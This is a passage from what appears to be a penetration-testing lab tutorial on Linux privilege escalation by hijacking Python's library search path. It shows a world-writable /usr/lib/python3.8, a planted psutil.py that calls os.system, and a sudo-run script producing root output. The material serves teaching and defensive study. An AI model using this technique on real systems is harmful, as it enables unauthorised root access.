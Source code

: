 ````
-rwx-rwxr-x 1 student        student         192 May 19  2023 psutil.py
$ sudo /usr/bin/python3 /home/student/mem_status.py
````

### Library Path

In Python, each version has a specified order in which libraries (modules) are searched and imported from. The order in which Python imports modules from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list. We can see this by issuing the following command:

**PYTHONPATH Listing**
````
$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
````
To be able to use this variant, two prerequisites are necessary.
- The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable.
- We must have write permissions to one of the paths having a higher priority on the list.

Therefore, if the imported module is located in a path lower on the list and a higher priority path is editable by our user, we can create a module ourselves with the same name and include our own desired functions. Since the higher priority path is read earlier and examined for the module in question, Python accesses the first hit it finds and imports it before reaching the original and intended module.

**Psutil Default Installation Location**
````
$ pip3 show psutil
...SNIP...
Location: /usr/local/lib/python3.8/dist-packages
...SNIP...
````
**Misconfigured Directory Permissions**
````
$ ls -la /usr/lib/python3.8
total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
...SNIP...
````
It appears that /usr/lib/python3.8 path is misconfigured in a way to allow any user to write to it.

**Hijacked Module Contents - psutil.py**

Create psutil.py file in /usr/lib/python3.8
````
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
````
**Privilege Escalation via Hijacking Python Library Path**
````
$ sudo /usr/bin/python3 mem_status.py
uid=0(root) gid=0(root) groups=0(root)
````
